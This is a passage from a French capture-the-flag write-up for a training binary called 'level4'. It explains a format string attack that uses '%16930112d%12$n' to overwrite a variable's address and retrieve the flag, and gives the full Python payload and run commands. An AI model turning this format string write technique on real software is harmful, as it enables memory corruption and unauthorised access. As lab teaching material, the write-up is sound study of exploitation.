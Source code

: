 Comme tout à l'heure on va utiliser `%n` pour écrire le nombre exact de caractères, et cette fois si l'argument de `printf` n'est pas le même :

![alt text](Ressources/image-2.png)

Il se trouve à la **12ème** position. Cette fois si pour écrire au Xème caractère, on va utiliser **`%Nd`** de `printf`, car si on utilisait la même technique que le niveau d'avant on dépasserait les **512 bytes**.

### 3.2 Technique d'optimisation

Pour éviter de dépasser la limite de 512 bytes, on utilise la directive **`%Nd`** qui :
- Affiche un nombre avec un padding de N caractères
- Compte dans le nombre total de caractères imprimés
- Permet d'atteindre de grandes valeurs sans générer beaucoup de données

### 3.3 Construction du payload

Pour la construction du payload il suffit donc d'avoir **`%16930112d`** (la valeur qu'il faut à `m` - 4 octets pour l'adresse de `m`).

On obtient donc :

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"'
```

### 3.4 Exécution de l'exploit

```bash
cat /tmp/payload - | ./level4
```

Et on obtient après un grand nombre de caractères écrit le flag !

### 3.5 Commandes complètes

```bash
# Se connecter au niveau
ssh level4@<IP> -p 4242

# Créer le payload
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/payload

# Exécuter l'exploit
cat /tmp/payload - | ./level4
```

## 4. Analyse technique approfondie

### 4.1 Pourquoi cette méthode fonctionne ?
